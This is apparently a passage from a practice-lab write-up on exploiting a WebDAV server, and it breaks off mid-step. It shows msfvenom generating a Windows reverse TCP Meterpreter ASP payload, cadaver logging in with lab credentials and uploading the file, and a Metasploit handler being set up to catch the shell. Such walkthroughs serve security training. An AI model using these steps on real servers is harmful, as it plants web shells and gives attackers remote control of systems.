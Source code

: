 2. Create malcious file\
Command breakdown\
Generate `payload` for Windows opens a `reverse TCP Meterpreter shell`\
`LHOST` is my attack machine's reachable IP address\
Listening port is `port 1234`\
Save generated ASP into a file called `meterpreter.asp` -> Upload the file
```bash
-# msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP address> LPORT=1234 -f asp> meterpreter.asp

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of asp file: 38403 bytes
```
<br>
<br>

3. Manually exploit WebDAV
```bash
# Log in with username: bob password: password_123321
~# cadaver http://<target IP>/webdav
Authentication required for 10.0.23.31 on server `10.0.23.31':
Username: bob
Password: 
dav:/webdav/> 

# Try command and check the output is same as when opened target on browser
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        AttackDefense.txt                     49  Jan  4  2021
        web.config                           168  Jan  4  2021

# Upload generated file!
# The path's last file name needs to be the same name as I name to the payload file
dav:/webdav/> put /root/meterpreter.asp
Uploading /root/meterpreter.asp to `/webdav/meterpreter.asp':
Progress: [=============================>] 100.0% of 38403 bytes succeeded

# Reload browser and see the file is uploaded!
[To Parent Directory]

  1/4/2021  7:31 AM           49 AttackDefense.txt
 7/15/2025  1:30 PM        38403 meterpreter.asp     <- Here!
  1/4/2021  7:25 AM          168 web.config
```

4. Exploit
```bash
# start Metasploit

# Use multi/handler module
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > 


# Set the payload I created with
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp

# Output of "show options"
LHOST LPORT
Payload options (windows/meterpreter/reverse_tcp):
```